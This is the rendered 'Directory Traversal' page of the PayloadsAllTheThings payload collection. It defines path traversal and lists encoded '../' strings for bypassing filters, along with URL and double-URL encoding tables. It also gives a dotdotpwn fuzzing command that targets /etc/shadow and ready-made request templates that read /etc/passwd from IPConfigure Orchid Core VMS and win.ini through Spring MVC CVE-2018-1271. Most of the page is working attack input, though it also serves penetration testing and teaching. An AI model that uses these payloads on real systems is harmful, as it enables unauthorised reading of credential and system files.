

repository: swisskyrepo/PayloadsAllTheThings · page: Directory Traversal/index.html · generator: mkdocs

# Directory Traversal

> Path Traversal, also known as Directory Traversal, is a type of security vulnerability that occurs when an attacker manipulates variables that reference files with “dot-dot-slash (../)” sequences or similar constructs. This can allow the attacker to access arbitrary files and directories stored on the file system.

## Summary

* [Tools](#tools)
* [Methodology](#methodology)
    * [URL Encoding](#url-encoding)
    * [Double URL Encoding](#double-url-encoding)
    * [Unicode Encoding](#unicode-encoding)
    * [Overlong UTF-8 Unicode Encoding](#overlong-utf-8-unicode-encoding)
    * [Mangled Path](#mangled-path)
    * [NULL Bytes](#null-bytes)
    * [Reverse Proxy URL Implementation](#reverse-proxy-url-implementation)
* [Exploit](#exploit)
    * [UNC Share](#unc-share)
    * [ASPNET Cookieless](#asp-net-cookieless)
    * [IIS Short Name](#iis-short-name)
    * [Java URL Protocol](#java-url-protocol)
* [Path Traversal](#path-traversal)
    * [Linux Files](#linux-files)
    * [Windows Files](#windows-files)
* [Labs](#labs)
* [References](#references)

## Tools

* [wireghoul/dotdotpwn](https://github.com/wireghoul/dotdotpwn) - The Directory Traversal Fuzzer

    ```powershell
    perl dotdotpwn.pl -h 10.10.10.10 -m ftp -t 300 -f /etc/shadow -s -q -b
    ```

## Methodology

We can use the `..` characters to access the parent directory, the following strings are several encoding that can help you bypass a poorly implemented filter.

```powershell
../
..\
..\/
%2e%2e%2f
%252e%252e%252f
%c0%ae%c0%ae%c0%af
%uff0e%uff0e%u2215
%uff0e%uff0e%u2216
```

### URL Encoding

| Character | Encoded |
| --- | -------- |
| `.` | `%2e` |
| `/` | `%2f` |
| `\` | `%5c` |

**Example:** IPConfigure Orchid Core VMS 2.0.5 - Local File Inclusion

```ps1
{{BaseURL}}/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e/etc/passwd
```

### Double URL Encoding

Double URL encoding is the process of applying URL encoding twice to a string. In URL encoding, special characters are replaced with a % followed by their hexadecimal ASCII value. Double encoding repeats this process on the already encoded string.

| Character | Encoded |
| --- | -------- |
| `.` | `%252e` |
| `/` | `%252f` |
| `\` | `%255c` |

**Example:** Spring MVC Directory Traversal Vulnerability (CVE-2018-1271)

```ps1
{{BaseURL}}/static/%255c%255c..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/windows/win.ini
{{BaseURL}}/spring-mvc-showcase/resources/%255c%255c..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/windows/win.ini
```
